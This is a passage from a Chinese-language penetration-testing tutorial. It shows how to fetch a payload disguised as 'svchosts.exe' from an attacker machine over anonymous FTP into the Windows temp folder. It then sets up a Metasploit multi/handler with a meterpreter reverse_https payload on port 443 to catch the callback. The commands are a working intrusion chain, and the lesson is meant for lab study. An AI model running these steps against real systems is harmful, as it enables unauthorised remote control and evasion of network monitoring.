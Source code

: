 一旦我们进入，要么打开命令行界面，要么打开 PowerShell 窗口，并按照以下方式下载文件。攻击机器的 IP 地址是`172.16.42.215`：

```
ftp 172.16.42.215 
```

它会要求一个用户名；输入`anonymous`并按下*Enter*键。然后，服务将要求密码。同样，只需按下*Enter*键，留空即可。

这将在这个设置上正常工作。运行`dir`命令，我们可以看到我们的利用程序；我们将通过运行以下命令将其下载到 Windows 的`temp`目录中：

```
GET svchosts.exe C:\Windows\temp\svchosts.exe  
```

![](img/9c5d97a8-e4e5-4855-abfd-ab5a1b6765ba.png)

MSFconsole 还将报告文件下载如下：

![](img/74ff9117-3e5d-4517-9c3e-4120af57dff7.png)

在运行利用程序之前，我们需要在攻击机器上设置利用处理程序。我们将为利用程序设置 Metasploit 多/处理程序，以便利用程序连接。处理程序的默认有效载荷是`reverse_tcp`有效载荷，并在端口`4444`上运行。

当我们构建我们的利用程序时，我们设置它使用`reverse_https`来隐藏我们的流量作为 HTTPS 流量，因此我们必须更改默认设置。从 MSFconsole 中运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.215 //(the attacking machine)
set LPORT 443
set PAYLOAD windows/meterpreter/reverse_https (sets the handler payload)
show options //(this will let you check the settings)
run -j //(the -j option will run the handler as a job in the background)  
```
